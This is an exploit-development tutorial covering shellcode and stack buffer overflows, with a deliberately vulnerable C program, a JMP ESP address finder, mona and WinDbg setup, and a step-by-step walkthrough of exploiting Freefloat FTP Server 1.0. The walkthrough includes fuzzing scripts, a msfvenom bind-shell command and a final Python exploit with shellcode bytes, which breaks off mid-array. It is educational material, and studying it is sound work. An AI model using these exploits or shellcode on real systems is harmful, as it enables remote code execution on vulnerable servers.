## I. Shellcode

### 1.1 Introduction

What is the relationship between shellcode and exploits? Think of it like the relationship between a missile researcher and the one who launches it.

An exploit is responsible for redirecting program execution to the shellcode. Shellcode is also known as the payload.

Buffer overflow vulnerabilities are typically exploitable via shellcode techniques. The key challenge is how to make the program hand over control to the shellcode.

### 1.2 Buffer Overflow

A buffer, also known as cache, is a portion of memory space. Simply put, you can think of it as a section of stack space. Writing to a buffer is inherently dangerous — if the written data exceeds the buffer size, it will overwrite data beyond the buffer boundary, causing a data overflow.

#### 1.2.1 Overflow Example

Shellcode exploits the buffer for storage. For example, the following program contains an overflow vulnerability:

```cpp
#include <stdio.h>
#include <windows.h>
#define PASSWORD "1234567"
int verify_password (char *password)
{
    int authenticated;
    char buffer[44];
    authenticated=strcmp(password,PASSWORD);
    strcpy(buffer,password);//over flowed here!   
    return authenticated;
}
main()
{
    int valid_flag=0;
    char password[1024];
    FILE * fp;
    LoadLibrary("user32.dll");//prepare for messagebox
    if(!(fp=fopen("password.txt","rw+")))
    {
        exit(0);
    }
    fscanf(fp,"%s",password);
    valid_flag = verify_password(password);
    if(valid_flag)
    {
        printf("incorrect password!\n");
    }
    else
    {
        printf("Congratulation! You have passed the verification!\n");
    }
    fclose(fp);
}
```

In the program above, the `verify_password` function contains a 44-byte buffer. Without any length validation, it directly uses `strcpy` to fill the buffer, leading to a buffer overflow.

This program can be exploited by filling `password.txt` with shellcode. Through dynamic debugging with OllyDbg, we can observe that the function return address is stored right after the buffer. By overwriting this address with the shellcode's entry point, the shellcode can be executed.

#### 1.2.2 Planning the Buffer Layout

When injecting shellcode, the buffer layout must be carefully planned. In this case, the shellcode is placed before the return address, limiting its size to 44 bytes. Therefore, the shellcode can be placed after the function return address. The data placed in the buffer can include:

1. Padding: Typically NOP instructions. As long as the return address lands within this range, execution will slide down to the shellcode.
2. Overwritten return address: This can be the shellcode entry address, a jump instruction address, or a NOP sled address that leads to the shellcode.
3. Shellcode machine code

Layout arrangements:



### 1.3 String to Hex Script

#### str_to_little_endian.py

In overflow exploits, shellcode often stores static data (such as strings) on the stack. For example, storing "techliu" on the stack:

```asm
xor ebx, ebx
push ebx
push 0x0075696C
push 0x68636574
```

This is written to memory according to the stack's storage characteristics and little-endian byte order. In memory, you'll see the string 'techliu'. The first two lines push the NULL string terminator onto the stack, but you cannot directly `push 0` because it might cause shellcode truncation.

Also, `push` can only operate on DWORD-sized data, so the string needs to be split before pushing onto the stack.

Simply pass the string to convert as a command-line argument to the Python script. The generated hex values should be pushed onto the stack from bottom to top.

Script contents:

```python
import struct
import sys
BLOCK = 4
if __name__ == '__main__':
  des_str = sys.argv[1]
  if not des_str:
      print("Not argv[1]!")
      exit(0)
  if isinstance(des_str, str):
      des_str = des_str.encode()
  # str_len = len(des_str);
 
  start = 0;
  while True:
      try:
          cur_str = des_str[start:start+4].ljust(4, b'\0')
          if cur_str == b'\0\0\0\0':
              break
          hex_str = cur_str.hex()
          int_str = int(hex_str,16)
          pack_str = struct.pack(b'<l', int_str)
          print("%4s:\t0x%s" % (cur_str.strip(b'\0').decode(), pack_str.hex().upper()))
          start = start + 4
      except:
          print("Error!!")
          exit(0)
```

> Note: If the string length is not a multiple of 4, it will be padded with 0x00. When the target program reads this, NULL byte truncation may occur. Depending on how the target program reads the exploit content, other truncation issues may arise — for example, when using `fscanf` or `scanf`, spaces (ASCII: 0x20) can also truncate the string.

### 1.4 Useful Techniques

#### 1.4.1 Trampoline Technique

The instruction addresses in memory change with each program execution, so the shellcode entry address is dynamic. To dynamically locate the shellcode, the trampoline technique is introduced. As shown in the diagram, the left side shows the return address stack frame filled with the shellcode entry address — this approach fails on the next run because the entry address changes. The right side shows the trampoline technique, which uses ESP to locate the shellcode, ensuring the exploit remains valid across runs.



The trampoline technique is used for dynamic shellcode jumping. The shellcode must start from the stack top position (ESP) after the function returns. The function then returns to a `JMP ESP` instruction, which jumps to the ESP position to enter the shellcode entry point.

> Note: Depending on the return instruction used, the ESP position after the function return may differ. Generally, after executing the `ret` instruction, ESP increases by 4, so the shellcode should be placed at the next position after the return address stack frame. For `ret N` instructions, ESP increases by 4+N after execution, and the shellcode must be placed at the corresponding calculated position.

The address of the `JMP ESP` instruction must be known. In Windows XP, `JMP ESP` can be found by searching through commonly loaded libraries like kernel32.dll, user32.dll, mfc32.dll, etc. The addresses are generally fixed.

C implementation for finding the address:

```cpp
# include <stdio.h>
#include <windows.h>
 
main()
{
    HINSTANCE hLib;
    hLib = LoadLibrary("user32.dll");
    if(!hLib)
    {
        printf("Load dll error!\n");
        exit(0);
    }
 
    byte* ptr = (byte*) hLib;
    int address;
    int position;
    bool done_flag = false;
 
    for(position=0; !done_flag; position++)
    {
        try
        {
            if(ptr[position] == 0xFF && ptr[position+1] == 0xE4)
            {
             // jmp esp opcode is 0xFFE4
                address = (int)ptr + position;
                printf("Find OPcode at 0x%08lX\n", address);
            }
        }
        catch(...)
        {
            address = (int)ptr + position;
            printf("End of 0x%08lX\n", address);
            done_flag = true;
        }
    }
}
```

This program won't work on modern OS versions because since Windows 7, core DLLs are loaded at randomized base addresses (ASLR).

#### 1.4.2 Raising the Stack Top to Protect Shellcode

If the shellcode is placed before the return address stack frame, the stack top will be below the shellcode after the function returns. Although popped data is not cleared, it can be affected by push operations. If the shellcode contains push instructions, it may corrupt the shellcode structure:



Therefore, the stack top should be raised at the beginning of the shellcode so that it sits below the stack top, preventing push operations from interfering with the shellcode.
The stack top can be raised using `sub esp, N`, where N should be greater than the shellcode length.


[Missing section, skipped]

## II. Configuring Mona for WinDbg

### 2.1 References

[https://github.com/corelan/windbglib](https://github.com/corelan/windbglib)

[https://github.com/corelan/mona](https://github.com/corelan/mona)

### 2.2 Configuring the Symbol Path

Create a new folder to cache symbols, e.g., c:\localsymbols

Then set the symbol path:

```plain
SRV*c:\localsymbols*http://msdl.microsoft.com/download/symbols
```

Select reload for the changes to take effect immediately.

### 2.3 Installing Python

Python must be installed before loading pykd.pyd.

The Python version must match the mona version.

```cmd
pip install pykd
```

### 2.4 Configuring WinDbg

Place pykd.pyd in WinDbg's winext directory, and put mona.py and windbglib.py in the WinDbg root directory.

Execute in cmd:

```cmd
c:
cd "C:\Program Files (x86)\Common Files\Microsoft Shared\VC"
regsvr32 msdia90.dll
(You should get a messagebox indicating that the dll was registered successfully)
```

Adjust accordingly for x64 and x86.

Open any PE file with WinDbg, then enter the command line. Type `.load pykd.pyd`, then type `!py mona` to test mona.

### 2.5 Common Mona Commands

#### 2.5.1 Display Loaded Modules

```cmd
!py mona modules
```

#### 2.5.2 Search for Opcodes

For example, searching for the `jmp esp` instruction:

```cmd
!py mona.py find -s "\xff\xe4"  -m
```

Generate a fuzzing pattern string:

```cmd
# 300 is the pattern length
!py mona.py pattern_create 300
```

After EIP is overwritten by the pattern string, query the pattern offset:

```cmd
# 0x41424345 is the exception value caused by the pattern string
!py mona.py pattern_offset 0x41424345
```

You can also query the offset this way:

```cmd
!py mona.py find_msp
```

### 2.6 Using Mona in Immunity Debugger

Copy mona.py to the PyCommands directory under Immunity Debugger. Open Immunity Debugger and type `!mona help` to test it.

## III. Freefloat FTP Server 1.0 Overflow Vulnerability Analysis

### 3.1 Introduction

This is a simple challenge from exploit-db, suitable for getting started with overflow vulnerabilities.

### 3.2 References

- [Part 2: Saved Return Pointer Overflows](http://www.fuzzysecurity.com/tutorials/expDev/2.html)
- [[Translation] Windows Exploit Development Tutorial Series Part 2: Saved Return Pointer Overflows](https://bbs.pediy.com/thread-206858.htm)
- [Freefloat FTP Server 1.0 Overflow Vulnerability Analysis](https://blog.csdn.net/u012763794/article/details/53291788)
- [FreeFloat FTP1.0 Overflow Vulnerability Analysis](https://xz.aliyun.com/t/2027)
- [Buffer Overflows Exploits](https://oscp.brutef0rce.com/buffer-overflows-exploits)

### 3.3 Analysis Tools

1. mona [[Project Page](https://github.com/corelan/mona)]
2. Immunity Debugger [[Homepage](https://www.immunityinc.com/products/debugger/)]
3. IDA 7.0 x86
4. Windows 7 x64
5. Kali 2.0 (mainly for MSF tools)
6. FTPServer.exe 1.0 [[Homepage](https://freefloat-ftp-server.apponic.com/)]
7. Python 2.7

### 3.4 Start

#### 3.4.1 Fuzzing

I tried two approaches — the principle is the same.

##### 3.4.1.1 MSF Approach

Open msfconsole. If you get an error:



It might be because the PostgreSQL database is not started:



Start it first with the command `systemctl start postgresql`.

Then entering msfconsole should work without errors.

First, search for FTP fuzzing modules with `search fuzzing`:



Use `auxiliary/fuzzers/ftp/ftp_pre_post` with the command `use auxiliary/fuzzers/ftp/ftp_pre_post`.
Type `info` to view information, then fill in `RHOST`:

```bash
# Load the module
use auxiliary/fuzzers/ftp/ftp_pre_post
# Set the remote FTP address
set RHOST 192.168.80.128
# Start the exploit
exploit
```



After 2 exceptions, the program crashes — this confirms it's exploitable via overflow.

##### 3.4.1.2 Python

Write a script to send test packets:

```python
import socket
 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.80.128', 21))
evil = 'A' * 300
payload = 'FEAT ' + evil + '\r\n'
s.send(payload)
s.close()
```

After running the script, the program crashes. Load the program with Immunity Debugger, run it, then execute the script again. The ASCII code for 'A' is 0x41:



EIP has been overwritten with 0x41414141, confirming the overflow. (If the disassembly window is empty, click the run button again to trigger the error shown, or check the status bar at the bottom left.)

#### 3.4.2 Finding the Return Address Offset

First, load the FTP program with Immunity Debugger and let it run. Search for strings and find this entry:



Double-click to enter the disassembly window. Here you'll see a call to the `wprintfw` function — set a breakpoint here.
Then use the previous Python script to send the payload. After the program breaks, step through to find the exception location. There was a small bug in the earlier script — after stepping, no exception was found and no string of A's appeared in the stack area. After modifying the script to add a `recv` before `send`, running it again allowed stepping to the exception point.

> Note: Why is `recv` needed before stepping to the exception point?
>
> I tested this — sending the payload directly to the program (without Immunity) correctly triggers the exception, but stepping through in Immunity doesn't work. Through IDA analysis, `sub_401020` is the main window procedure function. Clicking the start button triggers `sub_4032D0`, which implements server listening. When a client connects, `sub_403120` is triggered (implementing `accept`), then `sub_402FC0` is entered. This function sends FTP version information to the client, then uses `select` for client communication. So the root cause is in `sub_402FC0` — the communication between `send`, `select`, and single-stepping is uncoordinated. The client must `recv` the server's version info before `send`-ing to properly reach the exception point.

After stepping through, the final location causing the exception is found in `sub_402DE0`. Analyzing the decompiled code in IDA:

```cpp
int __thiscall sub_402DE0(SOCKET *this, int a2, const char *a3)
{
  char buf; // [esp+10h] [ebp-100h]
  char v5; // [esp+11h] [ebp-FFh]
  char v6; // [esp+12h] [ebp-FEh]
  char v7; // [esp+13h] [ebp-FDh]
  char v8; // [esp+14h] [ebp-FCh]
 
  buf = (char)a2 / 100 + 48;
  v7 = 32;
  v5 = a2 / 10 % 10 + 48;
  v6 = a2 % 10 + 48;
  strcpy(&v8, a3);
  strcat(&buf, asc_40A588);
  return send(*this, &buf, strlen(&buf), 0);
}
```

The `strcpy` here causes the buffer overflow. The overflowed buffer is `v8`, with a size of 0xFC (252 bytes).
Upon further inspection, the content copied to the buffer is the 'data sent by the client' wrapped in quotes. Having identified the buffer size, we need to find the return address offset. There are two possible buffer layouts:



This layout has the saved EBP between the return address and local variables. The new EBP points to the bottom boundary of local variables.



In this layout, the return address is directly below the local variables, and EBP points to the bottom boundary of local variables.

To determine which layout is used: examine the function prologue — if `push ebp` is present, it's the former layout; otherwise, it's the latter.

Examining the assembly code of this function reveals it's the latter — the original EBP is not saved.

The buffer is 252 bytes total, so for `FEAT {pattern}`, the trampoline address should be placed at offset 246 within `{pattern}`.

##### 3.4.2.1 Quick Method

Generate a pattern string using mona:

```cmd
!mona pattern_create 300
```

After generation, open pattern.txt and copy the pattern string to the `evil` variable in the Python script. It's not recommended to copy from the log (potential truncation). Restart the server, run the script, and the exception is triggered.



The exception value is 0x41326941. Find the offset:

```cmd
!mona pattern_offset 0x41326941
```



This matches our calculation exactly.

Alternatively, `!mona findmsp` can also find it:



You can also use MSF scripts:

```bash
# Find script location
locate pattern_create
# Navigate to the directory and generate the pattern
pattern_create.rb -l 300
# Query the offset
pattern_offset.rb -q 41326941
```



#### 3.4.3 Exploitation

Now we can find a trampoline address to overwrite the return address.

##### 3.4.3.1 Finding the Trampoline Address

You can brute-force search memory, but here are some convenient methods:

```cmd
!mona jmp -r esp
```

Look for jmp.txt in the mona directory for results. Sometimes not many are found. Try this alternative:

```cmd
!mona find -s '\xff\xe4' -m
```

Results will be in find.txt. Pick any address as the trampoline.

Place this trampoline address at pattern offset 246.

##### 3.4.3.2 Crafting the Shellcode

With the trampoline ready, next comes the shellcode. Below demonstrates a reverse shell shellcode.

You'll need Kali or a machine with MSF installed.

Command:

```bash
# -p specifies the module, -f c formats as C code, -b specifies bad characters
msfvenom -p windows/shell_bind_tcp LPORT=5555 -f c -b '\x00\x0a\x0d'
```



Copy the shellcode and append it to the payload in the Python script.

##### 3.4.3.3 Final Exploit

The script:

```python
import socket
 
#----------------------------------------------------------------------------------#
# msfvenom windows/shell_bind_tcp LPORT=5555  -b '\x00\x0A\x0D' -f c               #
#----------------------------------------------------------------------------------#
 
shellcode = (
"\xd9\xee\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x53\xba\x20\x01\xae"
"\xc2\x83\xc0\x04\x31\x50\x13\x03\x70\x12\x4c\x37\x8c\xfc\x12"
"\xb8\x6c\xfd\x72\x30\x89\xcc\xb2\x26\xda\x7f\x03\x2c\x8e\x73"
"\xe8\x60\x3a\x07\x9c\xac\x4d\xa0\x2b\x8b\x60\x31\x07\xef\xe3"
"\xb1\x5a\x3c\xc3\x88\x94\x31\x02\xcc\xc9\xb8\x56\x85\x86\x6f"
"\x46\xa2\xd3\xb3\xed\xf8\xf2\xb3\x12\x48\xf4\x92\x85\xc2\xaf"
"\x34\x24\x06\xc4\x7c\x3e\x4b\xe1\x37\xb5\xbf\x9d\xc9\x1f\x8e"
"\x5e\x65\x5e\x3e\xad\x77\xa7\xf9\x4e\x02\xd1\xf9\xf3\x15\x26"
"\x83\x2f\x93\xbc\x23\xbb\x03\x18\xd5\x68\xd5\xeb\xd9\xc5\x91"
"\xb3\xfd\xd8\x76\xc8\xfa\x51\x79\x1e\x8b\x22\x5e\xba\xd7\xf1"
"\xff\x9b\xbd\x54\xff\xfb\x1d\x08\xa5\x70\xb3\x5d\xd4\xdb\xdc"
"\x92\xd5\xe3\x1c\xbd\x6e\x90\x2e\x62\xc5\x3e\x03\xeb\xc3\xb9"
